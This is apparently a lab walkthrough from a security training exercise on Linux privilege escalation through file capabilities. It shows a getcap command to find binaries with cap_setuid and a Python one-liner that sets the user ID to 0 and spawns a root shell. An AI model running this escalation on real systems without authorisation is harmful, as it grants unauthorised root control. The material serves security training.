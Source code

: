 **Detection**

Linux VM

1. In command prompt type: 
   
```
getcap -r / 2>/dev/null
```

2. From the output, notice the value of the “cap_setuid” capability.

**Exploitation**

Linux VM

1. In command prompt type:

```
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```


![[Pasted image 20240602232434.png]]


2. Enjoy root!

Answer the questions below

Click 'Completed' once you have successfully elevated the machine